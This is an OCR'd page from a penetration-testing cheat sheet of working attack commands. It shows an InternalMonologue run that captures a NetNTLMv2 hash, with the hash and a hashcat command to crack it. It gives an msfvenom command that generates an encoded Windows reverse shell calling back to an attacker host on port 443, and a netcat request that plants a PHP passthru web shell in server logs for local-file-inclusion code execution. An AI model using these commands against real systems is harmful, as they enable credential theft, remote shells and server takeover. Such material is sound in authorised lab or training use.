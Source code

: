 # Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

# crack with hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable

Generating Payload with msfvenom

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai

Compiling Code From Linux

# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c

Compiling Assembly from Windows

# https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
nasm -f win64 .\hello.asm -o .\hello.obj

# http://www.godevtool.com/Golink.zip
GoLink.exe -o .\hello.exe .\hello.obj

Local File Inclusion to Shell

nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
